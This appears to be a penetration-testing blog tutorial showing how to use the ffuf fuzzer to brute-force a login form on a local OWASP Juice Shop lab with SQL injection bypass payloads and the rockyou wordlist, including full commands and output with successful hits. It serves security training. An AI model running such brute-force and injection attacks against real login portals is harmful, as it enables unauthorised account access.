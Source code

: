 ```yaml
---
title:  "Use FFUF to bypass Burp Suite's Intruder attacks delay"
date: 2023-07-25
mathjax: true
layout: post
categories: tutorial
tags: burpsuite ffuf docker webapp
---
```


#### It is possible to use FFUF like alternative to bypass Burp Suite Community Edition's Intruder attacks delay? 

## *The answer is: Yes! you can.*

* * *
 
# PoC

Burp Suite Community Edition is very good to use the Intruder and it allow us to fuzz parameters in a Request. But, we know that if we don't have Burp Suite Professional Edition, Intruder will be slow.

This article explain how you can use FFUF as alternative to bypass the rate limit of Burp Suite Community Edition and so, improve your hacking ;)

# Summary

1. ¿What is FFUF?
2. Usage and examples
3. Conclusion and Final words

* * *

# 1. *¿What is FFUF?*

## FFUF

FFUF is a fast web fuzzer tool written in Go. It's common used for Pentesters to discover subdomains, directories and test multiples parameters of a Web Application. (Example: API fuzzing). 

[![asciicast](https://asciinema.org/a/211350.svg)](https://asciinema.org/a/211350)

You can find and download FFUF from official repo in Github: [https://github.com/ffuf/ffuf](https://github.com/ffuf/ffuf){:target="_blank"}

# 2. *Usage and examples*

First at all you need a request file. It can be generated by yourself or you can copy any request directly from Burp Suite.

*For this example I will test the OWASP Juice Shop application in localhost using Docker.* 

- Download: [https://hub.docker.com/r/bkimminich/juice-shop](https://hub.docker.com/r/bkimminich/juice-shop){:target="_blank"}

![login-portal-owasp-juice-shop](https://i.ibb.co/f24pJ8W/login-portal-owasp-juice-shop.png)

![burp-suite-request](https://i.ibb.co/b6gCTWk/burp-suite-request.png)

We can just copy the text and save as `"request.txt"`.

Once captured the request, we need to set where we want to fuzz the parameters. To do that we can open the request file with nano or vim.

![nano-editing-request](https://i.ibb.co/rkQLdp0/nano-editing-request.png)

I choice set `FUZZEMAIL` and `FUZZPASSWD` to then fuzzing with **FFUF**.

## Time to hack.

Now we can use the request file to fuzzing the parameters, so let's take a review of usage modes:

## Modes

```bash
-mode
Multi-wordlist operation mode. (default: clusterbomb) 
	-sniper
	-pitchfork
	-clusterbomb
```

## Example

```bash
ffuf -request request.txt --request-proto https -mode clusterbomb -w passwords.txt:FUZZPASSWD -w email-list.txt:FUZZEMAIL
```

With that command we are fuzzing the request testing each email and password with the payloads to bypass the log in portal.

We gonna try perform a SQL Injection, so we need to encode payloads as URL.

I will use CyberChef to encode and a list of payloads from PayloadsAllTheThings.

- CyberChef online: [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/){:target="_blank"}

- PayloadsAllTheThings: [https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/](https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/){:target="_blank"}

*On Kali Linux you can install the both with:*

```bash
sudo apt install -y cyberchef payloadsallthethings
```

- List of payloads for SQL Injection: [https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/SQL%20Injection/#authentication-bypass](https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/SQL%20Injection/#authentication-bypass){:target="_blank"}

So copy and encode with CyberChef.

![cyberchef-encoding](https://i.ibb.co/ZKr71Qs/cyberchef-encoding.png)

It is necessary add the recipe "Split" to separate each payload. In the field "Split delimiter" you need to set "%0A". *(See the image above).*

## Fuzzing

- FUZZEMAIL will be all the SQL Injection Payloads.
- FUZZPASSWD will be the classic "rockyou.txt" wordlist.

```bash
> ffuf -request request.txt --request-proto http -mode pitchfork -w /usr/share/wordlists/rockyou.txt:FUZZPASSWD -w /home/hackermater/Labs/Juice\ Shop/email-list.txt:FUZZEMAIL -mc 200
         ____    ____             ____
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://127.0.0.1:3000/rest/user/login
 :: Wordlist         : FUZZPASSWD: /usr/share/wordlists/rockyou.txt
 :: Wordlist         : FUZZEMAIL: /home/hackermater/Labs/Juice Shop/email-list.txt
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : DNT: 1
 :: Header           : Cookie: language=en; welcomebanner_status=dismiss
 :: Header           : Sec-Fetch-Dest: empty
 :: Header           : Sec-Fetch-Site: same-origin
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
 :: Header           : Accept-Encoding: gzip, deflate
 :: Header           : Referer: http://127.0.0.1:3000/
 :: Header           : Sec-Fetch-Mode: cors
 :: Header           : Host: 127.0.0.1:3000
 :: Header           : Accept: application/json, text/plain, */*
 :: Header           : Content-Type: application/json
 :: Header           : Origin: http://127.0.0.1:3000
 :: Header           : Connection: close
 :: Data             : {"email":"admin@juice-sh.opFUZZEMAIL","password":"FUZZPASSWD"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

[Status: 200, Size: 799, Words: 1, Lines: 1, Duration: 1582ms]
    * FUZZEMAIL: '--'
    * FUZZPASSWD: qwerty

[Status: 200, Size: 799, Words: 1, Lines: 1, Duration: 2064ms]
    * FUZZEMAIL: '--'%20/%20%22--%22
    * FUZZPASSWD: iloveu

[Status: 200, Size: 799, Words: 1, Lines: 1, Duration: 1842ms]
    * FUZZEMAIL: '--'
    * FUZZPASSWD: adrian

[Status: 200, Size: 799, Words: 1, Lines: 1, Duration: 1827ms]
    * FUZZEMAIL: '--'%20/%20%22--%22
    * FUZZPASSWD: destiny

[WARN] Caught keyboard interrupt (Ctrl-C)
```

*We can check the login bypass on the web:*

![pwned-login-portal](https://i.ibb.co/YyJFJDp/pwned-login-portal.png)

# Conclusion and Final words ;)

This is a simple and powerful way to use an "Intruder" or Fuzzer with FFUF instead the Burp Suite's Intruder from Community Edition with multiples parameters and with whatever encoding you want.

*And finally, here is a useful tip:*

## *Rate limit*

Many times, when you are performing a pentest audit it's required a rate limit for seconds between requests.

```bash
-rate               
Rate of requests per second (default: 0)
```

#### *Example*

```bash
ffuf -request request.txt --request-proto https -mode pitchfork -w passwords.txt:FUZZPASSWD -w usernames.txt:FUZZUSERS -rate 5 

# It will perform 5 requests per seconds
```

Happy Hacking!!

----

## Author: Mateo Fumis 
